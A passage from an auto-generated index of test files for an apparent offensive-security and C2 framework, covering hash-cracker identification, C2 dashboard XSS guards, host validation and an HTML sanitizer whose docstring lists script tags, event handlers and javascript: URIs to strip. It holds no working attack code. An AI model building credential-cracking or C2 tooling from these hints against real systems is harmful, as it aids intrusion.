- `TestRenderer` (line 337) `class TestRenderer` - *``render_exploration`` must run without raising for any scope.*
- `TestShippedAddonsRespectSchema` (line 362) `class TestShippedAddonsRespectSchema` - *Every YAML in lazyaddons/ must declare ``os`` + ``trigger`` validly.*

**Functions:**
- `fake_sessions` (line 71) `def fake_sessions(tmp_path)` - *Create a sessions/ directory with one valid nmap XML.*
- `fake_addons` (line 84) `def fake_addons(tmp_path)` - *Create a lazyaddons/ directory with two addons exercising both fields.*
- `fake_tools` (line 127) `def fake_tools(tmp_path)` - *Create a tools/ directory with one trigger-matching ``.tool``.*
- `_addon` (line 395) `def _addon(name, addon_os, trigger, enabled)` - *Build an AddonEntry for unit tests.*
- `_svc` (line 410) `def _svc(service, port)` - *Build a DiscoveredService for unit tests.*

**Methods:**
- `test_normalise_os` (line 163) `def test_normalise_os(self, value, expected)`
- `test_normalise_trigger` (line 178) `def test_normalise_trigger(self, value, expected)`
- `test_reads_only_open_ports` (line 185) `def test_reads_only_open_ports(self, fake_sessions, monkeypatch)`
- `test_target_filter_excludes_other_hosts` (line 192) `def test_target_filter_excludes_other_hosts(self, fake_sessions, monkeypatch)`
- `test_records_product_version` (line 197) `def test_records_product_version(self, fake_sessions, monkeypatch)`
- `test_addon_catalog_loads_os_and_trigger` (line 209) `def test_addon_catalog_loads_os_and_trigger(self, fake_addons, monkeypatch)`
- `test_tool_catalog_loads_os_default` (line 219) `def test_tool_catalog_loads_os_default(self, fake_tools, monkeypatch)`
- `test_addon_catalog_reuses_cache_when_mtime_unchanged` (line 228) `def test_addon_catalog_reuses_cache_when_mtime_unchanged(self, fake_addons, monkeypatch)`
- `test_addon_catalog_invalidates_cache_on_change` (line 237) `def test_addon_catalog_invalidates_cache_on_change(self, fake_addons, monkeypatch)`
- `test_tool_catalog_reuses_cache_when_mtime_unchanged` (line 252) `def test_tool_catalog_reuses_cache_when_mtime_unchanged(self, fake_tools, monkeypatch)`
- `test_os_compat_any_passes` (line 265) `def test_os_compat_any_passes(self)`
- `test_os_mismatch_filters_out` (line 271) `def test_os_mismatch_filters_out(self)`
- `test_wildcard_matches_any_service` (line 277) `def test_wildcard_matches_any_service(self)`
- `test_disabled_addon_skipped` (line 283) `def test_disabled_addon_skipped(self)`
- `test_suggestions_and_coverage` (line 293) `def test_suggestions_and_coverage(self, fake_sessions, fake_addons, fake_tools, monkeypatch, tmp_path)`
- `test_unexplored_excludes_history` (line 308) `def test_unexplored_excludes_history(self, fake_sessions, fake_addons, fake_tools, monkeypatch, tmp_path)`
- `test_resolves` (line 333) `def test_resolves(self, payload, expected)`
- `test_renders_empty_scope` (line 340) `def test_renders_empty_scope(self, tmp_path, monkeypatch)`
- `test_renders_populated_scope` (line 350) `def test_renders_populated_scope(self, fake_sessions, fake_addons, fake_tools, monkeypatch, tmp_path)`
- `addon_files` (line 366) `def addon_files(self)`
- `test_at_least_one_addon_exists` (line 369) `def test_at_least_one_addon_exists(self, addon_files)`
- `test_all_have_os_in_allowed_values` (line 372) `def test_all_have_os_in_allowed_values(self, addon_files)`
- `test_all_have_trigger_list` (line 381) `def test_all_have_trigger_list(self, addon_files)`

#### `test_finding_lifecycle.py`
**Path:** `tests/test_finding_lifecycle.py`
**File Doc:** *Finding confirmation lifecycle + keyless OSINT enrichment.*

**Functions:**
- `_finding` (line 24) `def _finding(fid, sources)` - *Minimal finding node as produced by the graph builders.*
- `test_pending_by_default` (line 30) `def test_pending_by_default(tmp_path)` - *Single-source findings stay pending intel, not noise.*
- `test_multi_source_auto_confirms` (line 35) `def test_multi_source_auto_confirms(tmp_path)` - *Two independent sources confirm without operator action.*
- `test_explicit_confirm_with_evidence` (line 41) `def test_explicit_confirm_with_evidence(tmp_path)` - *Operator confirmation persists evidence on the finding.*
- `test_reject_beats_auto_confirm` (line 49) `def test_reject_beats_auto_confirm(tmp_path)` - *Explicit reject wins over the multi-source rule (CAIRN dead-ends).*
- `test_dead_end_suppresses_value` (line 57) `def test_dead_end_suppresses_value(tmp_path)` - *Labeled suppression list rejects matching values campaign-wide.*
- `test_apply_confirmation_stamps_nodes` (line 65) `def test_apply_confirmation_stamps_nodes(tmp_path)` - *Builder hook stamps confirmation + display status on findings.*
- `test_enrich_evidence_appends_keyless_verdicts` (line 75) `def test_enrich_evidence_appends_keyless_verdicts(tmp_path, monkeypatch)` - *CVE mentions gain OSV/KEV/EPSS verdicts without any API key.*
- `test_enrich_evidence_never_fails_offline` (line 85) `def test_enrich_evidence_never_fails_offline(tmp_path, monkeypatch)` - *Broken network degrades to the raw items, never an exception.*
- `_boom` (line 87) `def _boom(cve, sessions)`

#### `test_fuzzy_picker.py`
**Path:** `tests/test_fuzzy_picker.py`
**File Doc:** *Tests for cli/fuzzy_picker.py and lint-regression for lazyown.py.  Two concerns are covered here:  1. The fuzzy picker primitives (MatchScorer, PickerConfig, FuzzyPicker, ReadlineBridge) — exercised through small fakes so the suite does not require an interactive terminal. 2. A regression check that confirms the SyntaxWarning fixes in ``lazyown.py`` did not alter the runtime bytes of the affected shell command strings. We assert literal substrings rather than scanning the source so the test is robust against further escape-related cleanups.*

**Classes:**
- `_FakeView` (line 35) `class _FakeView(PickerView)` - *Deterministic view used to drive FuzzyPicker without curses.*

**Functions:**
- `scorer` (line 54) `def scorer()`
- `sample_items` (line 59) `def sample_items()`
- `test_empty_query_returns_all_items_in_order` (line 72) `def test_empty_query_returns_all_items_in_order(scorer, sample_items)`
- `test_exact_match_scores_highest` (line 78) `def test_exact_match_scores_highest(scorer, sample_items)`
- `test_prefix_match_outranks_substring` (line 84) `def test_prefix_match_outranks_substring(scorer)`
- `test_subsequence_match_emits_positions` (line 90) `def test_subsequence_match_emits_positions(scorer, sample_items)`
- `test_similarity_floor_excludes_unrelated_text` (line 98) `def test_similarity_floor_excludes_unrelated_text(scorer)`
- `test_subsequence_positions_helper_returns_empty_when_no_match` (line 104) `def test_subsequence_positions_helper_returns_empty_when_no_match()`
- `test_config_from_payload_respects_known_overrides` (line 112) `def test_config_from_payload_respects_known_overrides()`
- `test_config_from_payload_ignores_unknown_keys` (line 119) `def test_config_from_payload_ignores_unknown_keys()`
- `test_config_from_payload_returns_defaults_when_no_block` (line 124) `def test_config_from_payload_returns_defaults_when_no_block()`
- `test_picker_short_circuits_single_item` (line 132) `def test_picker_short_circuits_single_item()`
- `test_picker_routes_through_view_for_multiple_items` (line 138) `def test_picker_routes_through_view_for_multiple_items(sample_items)`
- `test_picker_cancel_returns_none` (line 146) `def test_picker_cancel_returns_none(sample_items)`
- `test_picker_empty_input_returns_none` (line 152) `def test_picker_empty_input_returns_none()`
- `test_strip_ansi_removes_csi_sequences` (line 160) `def test_strip_ansi_removes_csi_sequences()`
- `test_strip_ansi_passes_through_plain_text` (line 165) `def test_strip_ansi_passes_through_plain_text()`
- `_collect_string_constants` (line 174) `def _collect_string_constants(source)` - *Return every string literal value present in ``source`` after parse.

Walking the AST captures the post-escape byte content of every literal,
which is exactly what reaches subprocess / shell calls at runtime. The
helper deliberately ignores f-string format expressions because their
interpolated values are runtime-dependent; only the static template
fragments inside ``ast.JoinedStr`` are captured.*
- `_collect_runtime_strings` (line 198) `def _collect_runtime_strings()` - *Aggregate string literals from every CLI source the shell may dispatch.

Returns:
    All string constants found in ``lazyown.py`` plus the migrated
    ``do_*`` modules under ``cli/commands/`` and the C2 builder
    module that hosts the cloudflare tunnel templates. Files that
    cannot be parsed are skipped silently so the test runs on
    partially valid checkouts.*
- `test_lazyown_runtime_strings_preserve_shell_payload` (line 260) `def test_lazyown_runtime_strings_preserve_shell_payload(expected_substring)`
- `test_lazyown_source_has_no_invalid_escape_warning` (line 265) `def test_lazyown_source_has_no_invalid_escape_warning()`
- `test_getprompt_renders_three_lines_and_includes_payload_segments` (line 280) `def test_getprompt_renders_three_lines_and_includes_payload_segments()`

**Methods:**
- `__init__` (line 38) `def __init__(self, selection_index)`
- `run` (line 43) `def run(self, items, initial_query)`

#### `test_graph_advisor.py`
**Path:** `tests/test_graph_advisor.py`
**File Doc:** *Tests for cli/graph_advisor.py.  The suite is driven by a small synthetic graphify-style JSON fixture so it runs deterministically without the full 1500-node LazyOwn graph. The real graph is exercised via the smoke test ``test_real_graph_summary_when_available`` which becomes a no-op when ``graphify-out/graph_lazyown.json`` is missing.*

**Functions:**
- `small_graph_data` (line 34) `def small_graph_data()`
- `small_graph_path` (line 126) `def small_graph_path(tmp_path, small_graph_data)`
- `advisor` (line 133) `def advisor(small_graph_path)`
- `test_loader_resolves_explicit_path` (line 138) `def test_loader_resolves_explicit_path(tmp_path, small_graph_data)`
- `test_loader_returns_none_when_missing` (line 147) `def test_loader_returns_none_when_missing(tmp_path)`
- `test_index_builds_adjacency_and_degree` (line 153) `def test_index_builds_adjacency_and_degree(small_graph_data)`
- `test_scorer_prefers_prefix_match` (line 174) `def test_scorer_prefers_prefix_match(small_graph_data)`
- `test_scorer_returns_empty_for_unrelated_query` (line 182) `def test_scorer_returns_empty_for_unrelated_query(small_graph_data)`
- `test_advisor_summary_reports_topology` (line 188) `def test_advisor_summary_reports_topology(advisor)`
- `test_advisor_summary_flags_empty_graph` (line 199) `def test_advisor_summary_flags_empty_graph(tmp_path)`
- `test_advisor_summary_flags_stale_graph` (line 212) `def test_advisor_summary_flags_stale_graph(tmp_path)`
- `test_advisor_search_returns_ranked_nodes` (line 231) `def test_advisor_search_returns_ranked_nodes(advisor)`
- `test_advisor_neighbors_returns_layered_walk` (line 239) `def test_advisor_neighbors_returns_layered_walk(advisor)`
- `test_advisor_neighbors_respects_depth` (line 248) `def test_advisor_neighbors_respects_depth(advisor)`
- `test_advisor_god_nodes_ranks_by_degree` (line 254) `def test_advisor_god_nodes_ranks_by_degree(advisor)`
- `test_advisor_suggest_next_walks_from_recent` (line 260) `def test_advisor_suggest_next_walks_from_recent(advisor)`
- `test_advisor_did_you_mean_returns_close_labels` (line 268) `def test_advisor_did_you_mean_returns_close_labels(advisor)`
- `test_advisor_truncate_respects_token_budget` (line 274) `def test_advisor_truncate_respects_token_budget(advisor)`
- `test_advisor_handles_missing_graph_gracefully` (line 280) `def test_advisor_handles_missing_graph_gracefully(tmp_path)`
- `test_advisor_reads_recent_commands_from_csv` (line 292) `def test_advisor_reads_recent_commands_from_csv(tmp_path, advisor)`
- `test_format_search_table_renders_rows` (line 309) `def test_format_search_table_renders_rows(advisor)`
- `test_format_neighbors_renders_when_match_found` (line 316) `def test_format_neighbors_renders_when_match_found(advisor)`
- `test_format_god_nodes_handles_empty` (line 322) `def test_format_god_nodes_handles_empty()`
- `test_format_suggestions_handles_empty` (line 326) `def test_format_suggestions_handles_empty()`
- `test_real_graph_summary_when_available` (line 333) `def test_real_graph_summary_when_available()`

#### `test_graph_overlay.py`
**Path:** `tests/test_graph_overlay.py`
**File Doc:** *Tests for cli/graph_overlay.py.  Exercises the data layer using a hand-rolled fake advisor that mirrors the contract of :class:`cli.graph_advisor.GraphAdvisor`.*

**Classes:**
- `_FakeAdvisor` (line 25) `class _FakeAdvisor`

**Functions:**
- `test_is_available_returns_false_when_advisor_missing` (line 55) `def test_is_available_returns_false_when_advisor_missing()` - *``None`` from the factory marks the overlay as unavailable.*
- `test_god_nodes_view_returns_hubs` (line 61) `def test_god_nodes_view_returns_hubs()` - *The default view emits the configured god-nodes.*
- `test_focus_switches_to_neighbors_view` (line 72) `def test_focus_switches_to_neighbors_view()` - *Typing a focus query auto-switches the view.*
- `test_focus_unknown_returns_no_match_message` (line 85) `def test_focus_unknown_returns_no_match_message()` - *A focus that does not match any node returns the configured message.*
- `test_unavailable_advisor_returns_no_graph_message` (line 97) `def test_unavailable_advisor_returns_no_graph_message()` - *When the advisor reports unavailable the overlay falls back.*
- `test_toggle_view_round_trip` (line 108) `def test_toggle_view_round_trip()` - *Toggle alternates between god-nodes and neighbors.*
- `test_launch_overlay_uses_runner` (line 122) `def test_launch_overlay_uses_runner()` - *The runner override bypasses Textual and returns its value.*
- `test_build_state_uses_default_factory_signature` (line 135) `def test_build_state_uses_default_factory_signature()` - *The factory accepts no arguments and returns a state instance.*
- `runner` (line 129) `def runner(context)`

**Methods:**
- `__init__` (line 26) `def __init__(self, available)`
- `is_available` (line 29) `def is_available(self)`
- `god_nodes` (line 32) `def god_nodes(self, limit)`
- `neighbors` (line 39) `def neighbors(self, query, depth, limit)`

#### `test_gui_xss_sinks.py`
**Path:** `tests/test_gui_xss_sinks.py`
**File Doc:** *Regression gate for XSS sinks in the C2 dashboard template.  Every ``innerHTML`` sink fed by LLM or command output must pass through the central ``safeHtml`` helper backed by DOMPurify. Raw interpolation of server-controlled strings is a stored-XSS vector.*

**Classes:**
- `SafeHtmlHelperTests` (line 26) `class SafeHtmlHelperTests(TestCase)`
- `SinkSanitizationTests` (line 37) `class SinkSanitizationTests(TestCase)`

**Functions:**
- `_read_template` (line 21) `def _read_template()` - *Return the raw dashboard template text.*

**Methods:**
- `test_helper_is_defined_exactly_once` (line 27) `def test_helper_is_defined_exactly_once(self)`
- `test_helper_prefers_dompurify_with_text_fallback` (line 31) `def test_helper_prefers_dompurify_with_text_fallback(self)`
- `test_no_raw_response_interpolation` (line 38) `def test_no_raw_response_interpolation(self)`
- `test_no_raw_html_interpolation` (line 43) `def test_no_raw_html_interpolation(self)`
- `test_no_raw_error_interpolation` (line 50) `def test_no_raw_error_interpolation(self)`
- `test_no_raw_output_interpolation` (line 61) `def test_no_raw_output_interpolation(self)`

#### `test_hash_cracker.py`
**Path:** `tests/test_hash_cracker.py`
**File Doc:** *Tests for modules/hash_cracker.py*

**Classes:**
- `TestHashIdentification` (line 14) `class TestHashIdentification`
- `TestFileIdentification` (line 66) `class TestFileIdentification`
- `TestCrackResult` (line 91) `class TestCrackResult`
- `TestHashPatterns` (line 114) `class TestHashPatterns`
- `TestWordlists` (line 122) `class TestWordlists`
- `TestHashIdentifier` (line 129) `class TestHashIdentifier`

**Methods:**
- `test_identify_ntlm` (line 15) `def test_identify_ntlm(self)`
- `test_identify_ntlm_from_secretsdump` (line 22) `def test_identify_ntlm_from_secretsdump(self)`
- `test_identify_sha512crypt` (line 29) `def test_identify_sha512crypt(self)`
- `test_identify_unknown` (line 36) `def test_identify_unknown(self)`
- `test_identify_empty` (line 41) `def test_identify_empty(self)`
- `test_identify_kerberos_tgs` (line 46) `def test_identify_kerberos_tgs(self)`
- `test_identify_md5` (line 53) `def test_identify_md5(self)`
- `test_identify_sha1` (line 59) `def test_identify_sha1(self)`
- `test_identify_file_empty` (line 67) `def test_identify_file_empty(self, tmp_path)`
- `test_identify_file_with_hashes` (line 74) `def test_identify_file_with_hashes(self, tmp_path)`
- `test_identify_file_not_exists` (line 85) `def test_identify_file_not_exists(self)`
- `test_crack_result_defaults` (line 92) `def test_crack_result_defaults(self)`
- `test_crack_result_cracked` (line 102) `def test_crack_result_cracked(self)`
- `test_all_patterns_exist` (line 115) `def test_all_patterns_exist(self)`
- `test_wordlist_paths_are_strings` (line 123) `def test_wordlist_paths_are_strings(self)`
- `test_hash_identifier_fields` (line 130) `def test_hash_identifier_fields(self)`

#### `test_help_ui_command_set.py`
**Path:** `tests/test_help_ui_command_set.py`
**File Doc:** *Help/UI command set extraction tests.  SDD contract for the help/tutorial cluster split out of ``cli/commands/misc_migrated.py`` into ``cli/commands/help_ui.py``.  Stage A (pending): the new ``HelpUiCommandSet`` subclasses ``PendingCommandSet`` so it is discovered but not registered, coexisting with the originals. Tests assert structure plus AST parity with the original methods in ``misc_migrated.py``.  Stage B (active): after the originals are deleted and the base class is flipped to ``LazyOwnCommandSet``, tests assert registry discovery, active registration eligibility, and absence of the methods in ``misc_migrated.py``.*

**Classes:**
- `HelpUiSuiteConfig` (line 38) `class HelpUiSuiteConfig` - *Centralised constants for the help UI extraction suite.*

**Functions:**
- `_add_repo_root_to_syspath` (line 32) `def _add_repo_root_to_syspath()`
- `_methods_of` (line 65) `def _methods_of(path, class_name)`
- `test_target_is_active_command_set` (line 77) `def test_target_is_active_command_set()`
- `test_target_exposes_full_help_cluster` (line 86) `def test_target_exposes_full_help_cluster()`
- `test_target_phase_metadata` (line 93) `def test_target_phase_metadata()`
- `test_source_no_longer_defines_cluster` (line 99) `def test_source_no_longer_defines_cluster()`
- `test_registry_registers_target` (line 105) `def test_registry_registers_target()`
- `test_no_command_collisions_with_source` (line 112) `def test_no_command_collisions_with_source()`

#### `test_host_policy.py`
**Path:** `tests/test_host_policy.py`
**File Doc:** *Single host-validation policy shared by CLI gates and hardening.  SDD contract: ``core.host_policy`` owns host shape validation. ``core.validators.check_*`` (UX gates with coloured errors) and ``core.hardening.validate_host`` (pure security predicate) both delegate to it, so the accept/reject sets cannot drift apart.*

**Classes:**
- `TestSharedPolicy` (line 51) `class TestSharedPolicy`
- `TestCliGatesDelegate` (line 73) `class TestCliGatesDelegate`

**Methods:**
- `test_valid_hosts_accepted` (line 52) `def test_valid_hosts_accepted(self)`
- `test_invalid_hosts_rejected` (line 57) `def test_invalid_hosts_rejected(self)`
- `test_shell_meta_rejected` (line 62) `def test_shell_meta_rejected(self)`
- `test_pinned_quirks_unchanged` (line 67) `def test_pinned_quirks_unchanged(self)`
- `test_check_rhost_matches_policy` (line 74) `def test_check_rhost_matches_policy(self, capsys)`
- `test_check_lhost_matches_policy` (line 81) `def test_check_lhost_matches_policy(self, capsys)`
- `test_check_lport_unchanged` (line 88) `def test_check_lport_unchanged(self, capsys)`

#### `test_html_sanitizer.py`
**Path:** `tests/test_html_sanitizer.py`
**File Doc:** *TDD tests for the bleach-based HTML sanitizer contract.  Contract: ``lazyc2.security.html_sanitizer.sanitize_html`` strips all dangerous tags and attributes from a snippet of HTML while keeping the benign formatting tags operators rely on for notes and reports.  Invariants:  1. ``<script>...</script>`` is removed entirely. 2. ``<iframe>``, ``<object>``, ``<embed>``, and ``<style>`` are removed. 3. ``on*=`` event handlers (e.g. ``onerror``, ``onclick``) are stripped. 4. ``javascript:`` URIs in ``href`` and ``src`` are stripped. 5. Benign tags (``p``, ``strong``, ``em``, ``ul``, ``ol``, ``li``, ``a``, ``code``, ``pre``, ``h1``..``h6``, ``blockquote``) survive untouched. 6. The ``allowed_tags`` and ``allowed_attributes`` can be overridden by the caller; the defaults are derived from :mod:`lazyc2.security.constants`.*

**Classes:**
- `TestScriptStripping` (line 25) `class TestScriptStripping` - *Dangerous script blocks must be removed.*
- `TestEventHandlerStripping` (line 49) `class TestEventHandlerStripping` - *Inline event handlers must be removed.*
- `TestJavascriptUriStripping` (line 63) `class TestJavascriptUriStripping` - *``javascript:`` URIs must be neutralised.*
- `TestBenignTagsPreserved` (line 71) `class TestBenignTagsPreserved` - *Benign formatting tags must survive untouched.*
- `TestCustomAllowlist` (line 93) `class TestCustomAllowlist` - *Allowlist overrides must be honoured.*

**Methods:**
- `test_script_block_removed` (line 28) `def test_script_block_removed(self)`
- `test_iframe_removed` (line 33) `def test_iframe_removed(self)`
- `test_object_and_embed_removed` (line 38) `def test_object_and_embed_removed(self)`
- `test_style_removed` (line 43) `def test_style_removed(self)`
- `test_onclick_removed` (line 52) `def test_onclick_removed(self)`
- `test_onerror_removed` (line 57) `def test_onerror_removed(self)`
- `test_javascript_href_stripped` (line 66) `def test_javascript_href_stripped(self)`
- `test_basic_formatting_preserved` (line 74) `def test_basic_formatting_preserved(self)`
- `test_lists_preserved` (line 81) `def test_lists_preserved(self)`
- `test_headings_preserved` (line 86) `def test_headings_preserved(self)`
- `test_strict_allowlist_strips_more` (line 96) `def test_strict_allowlist_strips_more(self)`

#### `test_https_redirect.py`
**Path:** `tests/test_https_redirect.py`
**File Doc:** *TDD tests for the HTTPS redirect contract.  Contract: ``lazyc2.security.https_redirect.HTTPSRedirect`` returns the response a Flask ``before_request`` handler should produce to force the client onto TLS in PROD, while leaving DEV traffic alone.  Invariants:  1. ``is_secure=True`` request: no redirect (None returned). 2. ``is_secure=False`` + ``env="PROD"``: a 301 redirect to the same URL with the scheme replaced by ``https``. 3. ``is_secure=False`` + ``env="DEV"``: no redirect. 4. The path and query string of the request are preserved in the redirect target. 5. The host header is preserved.*

**Classes:**
- `_FakeRequest` (line 23) `class _FakeRequest`
- `TestHTTPSRedirect` (line 34) `class TestHTTPSRedirect` - *Verify the redirect logic.*
- `TestRedirectResponseShape` (line 74) `class TestRedirectResponseShape` - *Verify the dataclass returned to Flask.*

**Methods:**
- `__init__` (line 24) `def __init__(self, is_secure, host, path, query_string)`
- `test_secure_request_passes_through` (line 37) `def test_secure_request_passes_through(self)`
- `test_insecure_in_prod_redirects_to_https` (line 42) `def test_insecure_in_prod_redirects_to_https(self)`
- `test_insecure_in_dev_passes_through` (line 50) `def test_insecure_in_dev_passes_through(self)`
- `test_insecure_when_disabled_passes_through` (line 55) `def test_insecure_when_disabled_passes_through(self)`
- `test_query_string_preserved` (line 60) `def test_query_string_preserved(self)`
- `test_root_path_preserved` (line 67) `def test_root_path_preserved(self)`
- `test_response_is_named_tuple_like` (line 77) `def test_response_is_named_tuple_like(self)`

#### `test_improvements_spec.py`
**Path:** `tests/test_improvements_spec.py`
**File Doc:** *Spec-driven validation of the three priority improvements.  This module is intentionally self-contained: it depends only on the Python standard library plus the modules under test. No pytest fixtures, no external mocks, no network access. It can be executed via ``python3 -m unittest tests/test_improvements_spec.py`` or under pytest.  Specs are derived from the following authoritative documents already checked into the repository:  * ``CLAUDE.md`` — coding standards (no magic numbers / hardcoded paths, SOLID, English-only, docstrings everywhere, atomic file writes, sessions/ as the only durable cross-process location, no duplicate ``class Config``). * ``COMMANDS.md`` — auto-generated command surface contract (every ``do_*`` carries a docstring used as ``help <name>``). * ``QUICKSTART.md`` — operator flow (status bar must surface target, phase, last finding, next suggestion). * ``skills/lazyown.md`` — MCP playbook (single canonical orchestrator entry point). * ``graphify-out/graph_lazyown.json`` — self-knowledge graph (the suggestion source must degrade gracefully when the graph is missing or unreadable).  Each test name encodes the spec it asserts so failures map back to a specific requirement.*

**Classes:**
- `_FakeShell` (line 77) `class _FakeShell` - *Minimal cmd2 stand-in that records hook registrations.*
- `_FakeEngagement` (line 90) `class _FakeEngagement`
- `_FakeQueen` (line 98) `class _FakeQueen`
- `_FakeSwanResult` (line 117) `class _FakeSwanResult`
- `_FakeSwanOrchestrator` (line 126) `class _FakeSwanOrchestrator`
- `_FakeAdvisor` (line 134) `class _FakeAdvisor`
- `_UnavailableBackend` (line 172) `class _UnavailableBackend`
- `StatusBarConfigSpec` (line 183) `class StatusBarConfigSpec(TestCase)` - *Spec 1.A — Config encapsulates every tunable.

CLAUDE.md §3 & §10 require no magic numbers or hardcoded paths.
The dataclass must therefore expose every value the bar relies on.*
- `StatusBarSecuritySpec` (line 205) `class StatusBarSecuritySpec(TestCase)` - *Spec 1.B — FileSystemReader is hardened against path traversal.*
- `StatusBarRendererSpec` (line 239) `class StatusBarRendererSpec(TestCase)` - *Spec 1.C — Renderer sanitises, truncates and ANSI-wraps.*
- `StatusBarManagerSpec` (line 278) `class StatusBarManagerSpec(TestCase)` - *Spec 1.D — Manager wires sources and installs onto the shell.*
- `StatusBarSourceSpec` (line 350) `class StatusBarSourceSpec(TestCase)` - *Spec 1.E — Concrete sources prefer richer data and fall back cleanly.*
- `StatusBarFactorySpec` (line 395) `class StatusBarFactorySpec(TestCase)` - *Spec 1.F — build_default_manager wires the canonical four sources.*
- `OrchestratorGoalValidationSpec` (line 404) `class OrchestratorGoalValidationSpec(TestCase)` - *Spec 2.A — GoalValidator enforces invariants at the boundary.*
- `BackendRegistrySpec` (line 444) `class BackendRegistrySpec(TestCase)` - *Spec 2.B — Registry enforces unique, named backends.*
- `RouterPolicySpec` (line 477) `class RouterPolicySpec(TestCase)` - *Spec 2.C — Router chooses backends by intent, not by accident.*
- `EventBusSpec` (line 518) `class EventBusSpec(TestCase)` - *Spec 2.D — EventBus persists atomically and bounds payloads.*
- `BackendAdapterSpec` (line 550) `class BackendAdapterSpec(TestCase)` - *Spec 2.E — Adapters never raise; they normalise into OrchestratorResult.*
- `UnifiedOrchestratorSpec` (line 601) `class UnifiedOrchestratorSpec(TestCase)` - *Spec 2.F — End-to-end facade emits events and never raises.*
- `ConfigDedupeSpec` (line 649) `class ConfigDedupeSpec(TestCase)` - *Spec 3.A — utils.py must not redeclare class Config.

CLAUDE.md §7 documented a long-standing duplicate Config defect.
Once removed, the canonical class lives in core.config. This test is
the regression guard: if a future change reintroduces a class Config
line in utils.py the test fails loudly.*
- `CommandSetActivationSpec` (line 673) `class CommandSetActivationSpec(TestCase)` - *Spec 3.B — OrchestrationCommandSet is discovered as active.

Discovery walks every module under ``cli.commands.*`` via importlib.
Some of those modules transitively import ``utils.py`` which parses
``sys.argv`` at import time. Unittest passes ``-v`` which collides
with that parser, so the test temporarily neutralises ``sys.argv``
while discovery runs and restores it after.*
- `DocstringDisciplineSpec` (line 706) `class DocstringDisciplineSpec(TestCase)` - *Spec 3.C — CLAUDE.md §10.4 mandates docstrings on every public symbol.*
- `GraphifyAvailabilitySpec` (line 745) `class GraphifyAvailabilitySpec(TestCase)` - *Spec 4.A — Suggestion source degrades when the graph is missing.

QUICKSTART.md and §15a state that the graph is optional. The status
bar must therefore never raise when ``graphify-out/`` is absent.*
- `CmdIntegrationRegressionSpec` (line 767) `class CmdIntegrationRegressionSpec(TestCase)` - *Spec 5 — regression guards for the two live-shell wiring bugs.

Bug 1: ``self.__dict__.get('_cmd')`` returns ``None`` because cmd2
    exposes the shell through a property, not an instance attribute.
    The OrchestrationCommandSet must use ``self._cmd`` so the bound
    shell is resolved correctly.

Bug 2: ``cmd2.Cmd.register_precmd_hook`` validates that the callable
    has the exact type annotations ``PrecommandData`` on both the
    parameter and the return. Hooks built with looser typing are
    silently rejected and the status bar never updates after install.*
- `LiveShellBehaviourSpec` (line 844) `class LiveShellBehaviourSpec(TestCase)` - *Spec 6 — behavioural fixes derived from the operator session log.

Three concrete regressions were observed in the live shell:

* The status bar showed ``next: OllamaModel`` — a graph-node class
  name rather than a command verb. The suggestion source must
  surface kill-chain / phase-priority verbs.
* ``[ ... ] ╔══[...]`` rendered on the same physical line as the
  multi-line custom prompt. The default ``prompt_join`` must place
  the bar on its own line.
* ``orchestrate --phase recon 'get ports'`` routed to SWAN with the
  hardcoded ``exploit_generation`` task_type. The router must score
  on the goal text only when ``task_type`` is unset, and the daemon
  must fall back to ``payload.rhost`` for the target.*
- `FactoryWiringSpec` (line 996) `class FactoryWiringSpec(TestCase)` - *Spec 4.B — Default factories produce ready-to-use objects.*
- `_Broken` (line 289) `class _Broken`
- `_Static` (line 308) `class _Static`
- `_Static` (line 329) `class _Static`
- `_Broken` (line 387) `class _Broken`
- `_Unnamed` (line 453) `class _Unnamed`
- `_Boom` (line 591) `class _Boom`
- `_Shell` (line 786) `class _Shell(Cmd)`
- `_Shell` (line 798) `class _Shell(Cmd)`
- `_Shell` (line 823) `class _Shell(Cmd)`
- `_Engine` (line 934) `class _Engine`

**Functions:**
- `_build_test_orchestrator` (line 142) `def _build_test_orchestrator(tmp_root, daemon_available, hive_available, swan_available, daemon_payload)`
- `_make_engine` (line 154) `def _make_engine(goal)`
- `contains_emoji` (line 730) `def contains_emoji(text)`
- `broken` (line 899) `def broken()`
- `factory` (line 931) `def factory(goal)`
- `fake_hints` (line 878) `def fake_hints(last_cmd, phase, sessions_dir, limit)`

**Methods:**
- `__init__` (line 80) `def __init__(self, custom_prompt)`
- `register_precmd_hook` (line 86) `def register_precmd_hook(self, hook)`
- `__init__` (line 91) `def __init__(self, payload)`
- `run` (line 94) `def run(self)`
- `__init__` (line 99) `def __init__(self, drones, summary)`
- `plan` (line 103) `def plan(self, goal, n_drones)`
- `dispatch` (line 107) `def dispatch(self, tasks)`
- `collect` (line 110) `def collect(self, ids)`
- `synthesize` (line 113) `def synthesize(self, results)`
- `__init__` (line 118) `def __init__(self, text, expert_id)`
- `__init__` (line 127) `def __init__(self, result)`
- `run` (line 130) `def run(self, task_type, goal, engagement_phase, timeout)`
- `__init__` (line 135) `def __init__(self, suggestions)`
- `suggest_next` (line 138) `def suggest_next(self, recent_commands, limit)`
- `__init__` (line 173) `def __init__(self, name)`
- `available` (line 176) `def available(self)`
- `run` (line 179) `def run(self, goal)`
- `test_config_is_immutable_dataclass` (line 190) `def test_config_is_immutable_dataclass(self)`
- `test_config_overrides_from_payload` (line 196) `def test_config_overrides_from_payload(self)`
- `test_config_ignores_invalid_overrides` (line 200) `def test_config_ignores_invalid_overrides(self)`
- `setUp` (line 208) `def setUp(self)`
- `tearDown` (line 213) `def tearDown(self)`
- `_reader` (line 216) `def _reader(self)`
- `test_reader_rejects_parent_traversal` (line 219) `def test_reader_rejects_parent_traversal(self)`
- `test_reader_rejects_absolute_paths` (line 222) `def test_reader_rejects_absolute_paths(self)`
- `test_reader_bounds_file_size` (line 225) `def test_reader_bounds_file_size(self)`
- `test_reader_returns_empty_on_missing_file` (line 231) `def test_reader_returns_empty_on_missing_file(self)`
- `test_reader_invalid_json_returns_none` (line 234) `def test_reader_invalid_json_returns_none(self)`
- `setUp` (line 242) `def setUp(self)`
- `test_render_plain_contains_all_fields` (line 246) `def test_render_plain_contains_all_fields(self)`
- `test_render_truncates_to_max_chars` (line 252) `def test_render_truncates_to_max_chars(self)`
- `test_render_strips_dangerous_substrings` (line 258) `def test_render_strips_dangerous_substrings(self)`
- `test_render_prompt_defaults_to_raw_ansi_for_prompt_toolkit` (line 263) `def test_render_prompt_defaults_to_raw_ansi_for_prompt_toolkit(self)`
- `test_render_prompt_opt_in_readline_mode_wraps_ansi_with_markers` (line 270) `def test_render_prompt_opt_in_readline_mode_wraps_ansi_with_markers(self)`
- `test_missing_source_key_raises` (line 281) `def test_missing_source_key_raises(self)`
